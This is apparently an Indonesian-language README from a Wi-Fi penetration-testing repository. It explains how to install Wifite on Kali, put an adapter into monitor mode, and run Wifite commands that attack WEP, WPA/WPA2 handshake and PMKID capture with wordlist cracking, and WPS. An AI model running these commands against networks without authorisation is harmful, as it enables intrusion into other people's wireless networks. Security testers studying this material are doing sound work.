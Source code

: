 # Wifite

![Wifite](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/wifite/img/wifite.jpg)

## Instalasi

Kali Linux

Mengguakan packet manager (`apt`):

```
sudo apt-get update
sudo apt-get install python3 net-tools ieee-data aircrack-ng reaver tshark macchanger bully  cowpatty hashcat hashcat-data john john-data hcxdumptool hcxtools wifite
```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. WEP:**

```
sudo wifite --kill -i [interface] --wep --require-fakeauth --keep-ivs
```

**2. WPA/WPA2-PSK:**

1. Capture Handshake:

   ```
   sudo wifite --kill -i [interface] --wpa --no-pmkid --dict [wordlist]
   ```
2. Capture PMKID:

   ```
   sudo wifite --kill -i [interface] --wpa --pmkid --dict [wordlist]
   ```

**3. WPA/WPA2-PSK (WPS):**

```
sudo wifite --kill -i [interface] --wpa --no-pmkid --wps --wps-only
```

## Video Demonstrasi:

[https://youtu.be/j7DtOmEaOiM?si=wsgmdfxon8Z5y7-C](https://youtu.be/j7DtOmEaOiM?si=wsgmdfxon8Z5y7-C)
